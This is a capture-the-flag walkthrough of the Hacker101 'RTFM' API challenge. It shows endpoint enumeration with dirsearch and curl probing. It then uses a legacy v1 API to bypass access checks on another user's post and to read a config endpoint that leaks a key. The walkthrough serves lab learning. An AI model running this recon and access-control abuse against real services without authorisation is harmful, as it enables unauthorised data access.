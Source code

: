 # Hacker101 RTFM

https://ctf.hacker101.com/ctf

```bash
% export BASE_URL='https://b92382ffe276f612169505245b1a76aa.ctf.hacker101.com'
```

We don't get much for starters:

```bash
% curl ${BASE_URL}
API base located at /api/v1/
% curl ${BASE_URL}/api/v1
["Endpoint not found"]
```

I've been using `dirsearch` (https://github.com/maurosoria/dirsearch) to 
enumerate endpoints:

```bash
% python3 dirsearch.py -u ${BASE_URL}

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12266

Target: https://b92382ffe276f612169505245b1a76aa.ctf.hacker101.com/

[15:15:36] Scanning: 
[15:16:07] 200 -    3KB - /api/v2/swagger.json                              
                                                                             
Task Completed
```

That's something! Off to a good start:

```bash
% curl --silent ${BASE_URL}/api/v2/swagger.json | jq
{
  "swagger": "2.0",
  "flag": "FLAG",
  "info": {
[...]
```

We get a handful of endpoints:

```bash
% curl --silent ${BASE_URL}/api/v2/swagger.json | jq '.paths' | grep '^  "'     
  "/api/v2/user": {
  "/api/v2/user/login": {
  "/api/v2/admin/user-list": {
  "/api/v2/user/posts/{id}": {
```

`/api/v2/user` POST endpoint is unauthenticated - that's promising. So is 
`/api/v2/user/login`, but that requires a username and a password (maybe 
something to look at later).

```bash
% curl -d'username=pizza&password=pizza' ${BASE_URL}/api/v2/user
{"username":"pizza","flag":"FLAG","message":"User created go to \/api\/v2\/user\/login to login"}%
% 
```

Let's start a session as well:

```bash
% curl -d'username=pizza&password=pizza' ${BASE_URL}/api/v2/user/login
{"session":"edf12810e48a2bcf2d039b8d31851622"}%
```

Let's check out some endpoints:

```bash
% curl -H 'X-Session: edf12810e48a2bcf2d039b8d31851622' ${BASE_URL}/api/v2/user           
{"username":"pizza"}
% 
% curl -H 'X-Session: edf12810e48a2bcf2d039b8d31851622' ${BASE_URL}/api/v2/admin/user-list
{"error":"Your user level needs to be an admin"}
% 
% curl -H 'X-Session: edf12810e48a2bcf2d039b8d31851622' ${BASE_URL}/api/v2/user/posts/1
{"error":"Post does not belong to you"}
% 
% curl -H 'X-Session: edf12810e48a2bcf2d039b8d31851622' ${BASE_URL}/api/v2/user/posts/2
{"error":"Post does not exist"}
```

Not much. What about those `/api/v1` endpoints the home page mentioned?

```bash
% curl ${BASE_URL}/api/v1/swagger.json                                  
["Endpoint not found"]
%
curl ${BASE_URL}/api/v1/login
["Endpoint not found"]
%
% curl -d'username=pizza&password=pizza' ${BASE_URL}/api/v1/user/login
{"token":"a15bb21c251d356c1b77c0064bc58859"}
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/admin/user-list
["Endpoint not found"]
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/admin/user-list
["Endpoint not found"]
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/user/posts/1
{"id":1,"post":"You got the Post: FLAG","analytics":"\/api\/v1\/post-analytics\/3c8a6664b8203c2e0b2b24972ccf5ce3"}
% 
```

Alright! A flag, and a bonus endpoint to boot. Anything there?

```bash
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/post-analytics/3c8a6664b8203c2e0b2b24972ccf5ce3
{"hash":"3c8a6664b8203c2e0b2b24972ccf5ce3","post":1,"views":34373}
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/post-analytics/
{"campaigns":["3c8a6664b8203c2e0b2b24972ccf5ce3"]}
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/campaigns
["Endpoint not found"]
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/campaigns/
["Endpoint not found"]
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/campaigns/3c8a6664b8203c2e0b2b24972ccf5ce3
["Endpoint not found"]
%
```

Maybe worth exploring. Possibly something we can explore in the v2 API as well? 
Let's put a pin in that for the time being. We've got three out of eight flags,
let's start back at the top 

Let's hit the API endpoints we know about with `dirsearch` again:

```
% python3 dirsearch.py -u ${BASE_URL}/api/v1/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12266

Target: https://b92382ffe276f612169505245b1a76aa.ctf.hacker101.com/

[16:10:32] Scanning: api/v1/
[16:11:13] 200 -   132B - /api/v1/config
[16:11:13] 200 -   132B - /api/v1/config/
[16:11:39] 403 -    51B - /api/v1/secrets
[16:11:39] 403 -    51B - /api/v1/secrets/
[16:11:41] 200 -    13B - /api/v1/status?full=true
[16:11:41] 200 -    13B - /api/v1/status
[16:11:41] 200 -    13B - /api/v1/status/
[16:11:49] 400 -    49B - /api/v1/user
[16:11:49] 400 -    49B - /api/v1/user/

Task Completed
% python3 dirsearch.py -u ${BASE_URL}/api/v2/

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12266

Target: https://b92382ffe276f612169505245b1a76aa.ctf.hacker101.com/

[16:22:40] Scanning: api/v2/
[16:23:57] 200 -    3KB - /api/v2/swagger.json                              
[16:24:00] 400 -    51B - /api/v2/user                                      
[16:24:00] 400 -    51B - /api/v2/user/                                     
                                                                             
Task Completed
%
% # That's something! 
% curl ${BASE_URL}/api/v1/config 
{"server":"Neptune","version":"1.3.94","private_key":"^FLAG^3b58b7d188df973cfebd140cb0a442c3c0eb67192c22e185920e848731101883$FLAG$"}%    
```

Halfway there! That secrets endpoint looks interesting, too - I think if we can 
find a way to get admin access we could probably get a flag or two. 

